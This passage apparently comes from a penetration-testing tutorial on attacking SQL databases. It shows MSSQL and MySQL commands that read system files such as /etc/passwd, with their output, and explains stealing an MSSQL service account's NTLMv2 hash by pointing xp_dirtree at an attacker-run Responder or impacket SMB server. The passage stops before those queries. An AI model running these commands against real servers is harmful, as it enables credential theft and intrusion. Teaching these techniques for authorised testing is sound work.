 #### Read Local Files in MSSQL
```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

BulkColumn

-----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should
```

As we previously mentioned, by default a `MySQL` installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

#### MySQL - Read Local Files in MySQL
```shell
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

## Capture MSSQL Service Hash
In the `Attacking SMB` section, we discussed that we could create a fake SMB server to steal a hash and abuse some default implementation within a Windows operating system. We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server. 

To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) and execute one of the following SQL queries:

#### First Set up Responder or Impacket-SMBServer
```shell
sudo responder -I tun0
```

```shell
sudo impacket-smbserver share ./ -smb2support
```

